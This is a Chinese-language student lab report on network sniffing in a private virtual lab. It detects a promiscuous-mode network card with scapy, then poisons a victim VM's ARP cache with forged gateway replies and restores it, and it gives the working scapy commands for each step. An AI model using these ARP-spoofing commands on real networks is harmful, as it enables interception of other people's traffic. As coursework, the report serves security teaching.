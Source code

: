# 实验四 网络监听

## 一、实验环境

- 网络拓扑

- 攻击者主机（kali attacker)
  - 10.211.55.5
  - 00:1c:42:8c:bc:96/eth0
- 靶机(kali victim)
  - 10.211.55.6
  - 00:1c:42:1d:6c:8f/eth0
- 网关(Debian GNU Linux 10.10 ARM64)
  - 10.211.55.8
  - 00:1c:42:00:00:18

## 二、实验内容

- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的ARP缓存

## 三、实验步骤

### 1.在攻击者主机上提前安装好scapy

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装scrapy](./img/安装scrapy.jpg)

### 2.检测局域网中的异常终端

```
# 在靶机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

<img src="./img/检查混杂模式.jpg" alt="检查混杂模式" style="zoom:50%;" />

```
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```

<img src="./img/开启scapy.jpg" alt="开启scrapy" style="zoom: 33%;" />

```bash
在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("10.211.55.6")
```

<img src="./img/scapy执行.jpeg" alt="scapy执行" style="zoom: 33%;" />

```bash
# 回到靶机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

<img src="./img/出现promisc.jpg" alt="出现promisc" style="zoom:33%;" />

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("10.211.55.6")
```

<img src="./img/又一次scapy执行.jpeg" alt="scapy又一次执行" style="zoom:33%;" />

```bash
# 在靶机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

<img src="./img/关闭混杂模式.jpg" alt="关闭混杂模式" style="zoom:33%;" />

查阅资料，`promiscping` 命令会发送 `ARP who-has` 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，靶机才能收到这个数据包。

在靶机上开启`Wireshark`抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

### 3.手工单步“毒化”目标主机的ARP缓存

- 获取当前局域网关的mac地址

  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="10.211.55.8")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  <img src="./img/获取mac地址.jpg" alt="获取mac地址" style="zoom:33%;" />

  ```bash
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  gw_mac
  ```

  <img src="./img/拿到网关mac.jpeg" alt="拿到网关mac" style="zoom: 33%;" />

- 伪造网关的ARP响应包

  ```bash
  # 攻击者主机准备发送给靶机 10.211.55.6
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="10.211.55.8", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  
  # 发送上述伪造的 ARP 响应数据包到靶机
  sendp(arpspoofed)
  ```

  <img src="img/forge_arp.jpg" alt="forge_arp" style="zoom: 33%;" />

  此时在靶机上查看 `ARP` 缓存会发现网关的 MAC 地址**已被「替换」为攻击者主机的 MAC 地址**

  ```bash
  ip neigh
  ```

  <img src="img/替换成功.jpg" alt="替换成功" style="zoom: 33%;" />

- 恢复靶机的ARP缓存记录（回到攻击者主机上的scapy交互式终端继续执行命令）

  ```bash
  ## 伪装网关给靶机发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="10.211.55.8", hwsrc="00:1c:42:00:00:18", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  <img src="img/recovery.jpg" alt="recovery" style="zoom: 33%;" />

  此时在靶机上准备“刷新”网关 `ARP` 记录。

  ```bash
  ## 在靶机上尝试 ping 网关
  ping 10.211.55.8
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看靶机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  <img src="img/victim_recovery.jpeg" alt="victim_recovery" style="zoom: 33%;" />

## 四、参考资料

[网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
